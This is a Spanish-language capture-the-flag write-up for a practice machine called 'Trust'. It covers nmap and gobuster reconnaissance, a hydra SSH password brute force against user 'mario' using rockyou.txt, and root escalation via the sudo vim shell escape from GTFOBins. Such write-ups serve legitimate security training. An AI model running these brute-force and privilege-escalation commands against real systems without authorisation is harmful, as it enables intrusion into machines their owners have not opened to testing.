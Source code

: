# Trust (muy fácil)


## Escaneo de puertos

Empezamos escaneando la máquina víctima con **nmap** para ver los puertos que tenga abiertos.

> Nota: puede que la IP variar

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.18.0.2 -oG allPorts
```
Aquí está el desglose de cada opción:

* ``nmap`` → Es la herramienta que realiza el escaneo de puertos y redes.

* ``-p-`` → Escanea todos los puertos (0-65535).

* ``--open`` → Muestra solo los puertos que están abiertos.

* ``-sT`` → Realiza un escaneo de conexión TCP completa (TCP Connect Scan). Es más lento que el SYN scan (-sS), pero no requiere privilegios de root.

* ``--min-rate 5000`` → Exige que el escaneo se realice con una tasa mínima de 5000 paquetes por segundo, acelerando el proceso.

* ``-vvv`` → Muestra un nivel de detalle muy alto en la salida (modo verbose máximo).

* ``-n`` → No resuelve nombres de dominio (evita consultas DNS).

* ``-Pn`` → No realiza detección de host, asumiendo que el objetivo está activo.

* ``172.18.0.2`` → La dirección IP del objetivo a escanear.

* ``-oG allPorts`` → Guarda la salida en un archivo de texto llamado *allPorts*. **(OPCIONAL)**

![resultado del comando](../assets/trust/nmap.png)

Parece que tiene abiertos los puertos 22 (SSH) y 80 (HTTP). Vamos a escanearlos en profundidad.

```shell
nmap -sCV -p22,80 172.18.0.2 -oN targeted
```
Aquí está el desglose de cada opción:

* ``nmap`` → Es la herramienta que realiza el escaneo de puertos y redes.

* ``-sC`` → Ejecuta los scripts de detección predeterminados de **nmap** (--script=default). Estos incluyen comprobaciones de vulnerabilidades, autenticación anónima en FTP, etc.

* ``-sV`` → Detecta versiones de los servicios en ejecución en los puertos abiertos.

* ``-p22,80`` → Escanea los puertos 22 (SSH) y 80 (HTTP).

* ``172.18.0.2`` → La dirección IP del objetivo a escanear.

* ``-oN targeted`` → Guarda la salida en un archivo de texto llamado *targeted*. **(OPCIONAL)**

![resultado del comando](../assets/trust/nmap2.png)

Echando un vistazo rápido, podemos ver que el puerto 22 está en la versión 9.2b1 de SSH, por lo que no es vulnerable. Vamos a ver qué página se está mostrando en el puerto 80.

![Página del puerto 80](../assets/trust/navegador.png)

Es la página por defecto de apache2. Si la revisamos, podrás ver que no está modificada, por lo que aquí no hay nada que nos interese.

Otra cosa que podemos probar es usar el comando ``gobuster`` para ver los directorios y archivos que contiene el servidor de la página web, por si hay algo interesante.

***

## Revisando directorios y archivos de la página web

```shell
gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x html,php
```

Aquí está el desglose de cada opción:

* ``gobuster`` → Es la herramienta para descubrir archivos y directorios ocultos en servidores web.

* ``dir`` → Ejecuta gobuster en modo directorios, escaneando rutas en un servidor web.

* ``-u http://172.18.0.2`` → Define la URL objetivo.

* ``-w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt`` → Usa un diccionario de rutas (directory-list-2.3-small.txt) para buscar directorios y archivos comunes.

    > Nota: Kali ya incluye por defecto este y otros diccionarios en /usr/share/wordlists

* ``-x html,php`` → Busca archivos con extensiones html y php.

![resultado del comando](../assets/trust/gobuster.png)

Como puedes ver, la herramienta ha encontrado varios archivos. A nosotros nos interesa **secret.php**. Vamos a abrirlo en el navegador.

![Página web](../assets/trust/navegador2.png)

Parece que es un mensaje para **Mario**... ¿Puede que sea un usuario del sistema?

***

## Oteniendo la contraseña de *mario*

Para acceder al usuario, vamos a realizar un ataque de fuerza bruta con ``hydra`` para buscar la contraseña para ***mario***.

```shell
hydra -l mario -P /usr/share/wordlists/rockyou.txt.gz ssh://172.18.0.2 -t 5
```

Aquí está el desglose de cada opción:

* ``hydra`` → Ejecuta la herramienta de ataque de fuerza bruta.

* ``-l mario`` → Especifica el nombre de usuario ***mario***.

* ``-P /usr/share/wordlists/rockyou.txt.gz`` → Usa el archivo de contraseñas **rockyou.txt.gz** (una lista de contraseñas comunes) como diccionario.
    > Nota: Kali ya incluye este y más diccionarios en /usr/share/wordlists

* ``ssh://172.18.0.2`` → Especifica que el ataque será contra el servicio SSH en la dirección 172.18.0.2.

* ``-t 5`` → Ejecuta 5 intentos simultáneos para aumentar la velocidad del ataque.

![Resultado del comando](../assets/trust/hydra.png)

¡Ya tenemos la contraseña! Vamos a acceder mediante SSH.

***

## Accediendo mediante SSH como *mario*

```shell
ssh mario@172.18.0.2
```

![resultado del comando](../assets/trust/ssh.png)

Revisamos qué comandos podemos ejecutar con ``sudo``.

```shell
sudo -l
```

![resultado del comando](../assets/trust/sudo.png)

Podemos ejecutar **vim** con sudo, por lo que entramos en [GTFOBins](https://gtfobins.github.io/) para ver si podemos explotar esto.

***

## Accediendo a root

![Página GTFOBins con el resultado de vim](../assets/trust/gtfobins.png)

Tenemos tres coincidencias, pero nos vamos a centrar en la segunda: **vim** normal y corriente.

![Dentro de vim en GTFOBins](../assets/trust/gtfobins2.png)

Copiamos el primer comando y lo pegamos en la terminal para ejecutarlo con ``sudo`` como ***mario***.

```shell
sudo vim -c ':!/bin/sh'
```
![resultado del comando](../assets/trust/vim.png)

¡Y ya estaría! Ya somos **root** :).